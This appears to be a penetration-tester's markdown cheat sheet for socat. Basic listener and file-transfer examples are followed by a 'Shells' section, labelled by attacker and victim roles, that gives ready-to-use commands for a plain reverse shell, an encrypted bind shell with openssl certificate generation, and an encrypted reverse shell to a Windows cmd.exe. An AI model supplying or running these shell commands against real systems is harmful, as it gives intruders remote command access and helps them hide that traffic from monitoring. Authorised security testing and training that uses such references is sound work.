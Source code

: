# Socat

## Common Options

* \-d : increase verbosity

## Usage

### Simple server / client

```
$ socat TCP4-LISTEN:8080 STDOUT
$ socat TCP4:127.0.0.1:8080
```

### File transfer

```
# Server --> Client
$ socat TCP4-LISTEN:8080,fork file:sharing.txt
$ socat TCP4:127.0.0.1:8080 file:incoming.txt,create
```

### Shells

#### Reverse Shell

```
# Attacker
$ socat -d -d TCP4-LISTEN:8080 STDOUT

# Victim
$ socat TCP4:127.0.0.1:8080 EXEC:/bin/bash
```

#### Encrypted Bind Shell

```
# Victim

# Generate new private key and certificate
$ openssl req -newkey rsa:2048 -nodes -keyout bindshell.key -x509 -days 365 -out bindshell.crt
$ cat bindshell.key bindshell.crt > bindshell.pem
$ sudo socat OPENSSL-LISTEN:443,cert=bindshell.pem,verify=0,fork EXEC:/bin/bash

# Attacker

$ socat - OPENSSL:127.0.0.1:443,verify=0
```

#### Encrypted Reverse Shell

```
# Attacker (Linux)

# Generate new private key and certificate
$ openssl req -newkey rsa:2048 -nodes -keyout revshell.key -x509 -days 365 -out revshell.crt
$ cat revshell.key revshell.crt > revshell.pem
$ sudo socat OPENSSL-LISTEN:443,cert=revshell.pem,verify=0,fork STDOUT

# Victim (Windows)

$ socat OPENSSL:127.0.0.1:443,verify=0 EXEC:'cmd.exe',pipes
```
